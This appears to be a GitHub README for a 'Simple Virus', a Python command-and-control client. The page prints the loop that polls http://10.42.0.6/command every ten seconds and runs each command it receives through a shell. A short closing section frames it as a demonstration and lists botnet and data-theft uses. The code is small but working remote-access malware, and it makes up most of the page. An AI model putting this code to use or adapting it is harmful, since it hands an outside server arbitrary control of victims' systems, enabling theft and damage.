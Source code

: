 # Simple Virus

This Python script is a simple representation of a virus that connects to a command and control server to receive and execute commands.

## How it works

The script operates in an infinite loop, continuously polling a specific URL for commands to execute. The URL it connects to is defined by the `url` variable:

```python
url = "http://10.42.0.6/command"
```

In each iteration of the loop, the script performs the following steps:

1. It sends a GET request to the URL.
2. It reads the response from the server, decodes it from bytes to a UTF-8 string, and removes any leading or trailing whitespace.
3. If the command is not an empty string, it executes the command using the `subprocess.call()` function. This function runs the command in a shell, which means it can execute any command that the shell can.
4. It then sleeps for 10 seconds before starting the next iteration.

Here is the main loop of the script:

```python
while True:
    response = urllib.request.urlopen(url)
    command = response.read().decode('utf-8').strip()

    if command:
        subprocess.call(command, shell=True)

    time.sleep(10)
```

## Security Implications

This script is a simple demonstration of how a malicious script can be used to remotely control a system. It does not include any security measures or error handling, and it should not be used in a real-world scenario.

In a real-world scenario, such a script could be used as part of a botnet for distributed denial-of-service (DDoS) attacks, to spread malware, or for other malicious purposes. The command and control server could send any command to be executed on the infected system, which could lead to data theft, system damage, or other negative impacts.

Always be cautious when running scripts from untrusted sources, and ensure your system is protected with up-to-date security software.
